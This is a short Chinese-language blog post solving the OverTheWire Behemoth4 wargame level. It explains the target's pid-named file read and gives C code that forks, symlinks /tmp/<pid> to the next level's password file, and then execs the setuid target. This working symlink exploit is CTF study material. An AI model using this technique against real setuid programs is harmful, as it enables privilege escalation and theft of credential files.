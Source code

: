 ```yaml
---
title: Behemoth4
author: rk700
layout: post
redirect_from:
  - /article/2014/07/05/behemoth4
  - /article/2014/07/05/behemoth4/
tags:
  - OverTheWire
  - exploit
---
```

这道题的程序执行后，会几乎立刻（1秒）去读一个文件，文件名和程序的pid有关。当然可以创建一大堆链接，都指向密码文件，链接名是所有可能的pid，但这样太费事儿

我们用fork，父进程可以得到子进程的pid，由此创建链接文件；子进程先sleep一段时间，以确保父进程先创建链接，然后子进程exec目标程序即可。因为pid不会随exec变，所以这也就是目标程序的pid

c代码如下

{% highlight c %}
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>

int main(int argc, char *argv[]) {
    pid_t pid;
    pid = fork();
    if(pid == -1) {
        exit(1);
    }
    
    if(pid == 0) {
        sleep(2);
        char *argv[2] = {"/behemoth/behemoth4", NULL};
        execv("/behemoth/behemoth4", argv);
    }
    else {
        char link[32];
        snprintf(link, sizeof link, "/tmp/%d", pid);
        symlink("/etc/behemoth_pass/behemoth5", link);
        int status;
        wait(&status);
        exit(0);
    }
}
{% endhighlight %}
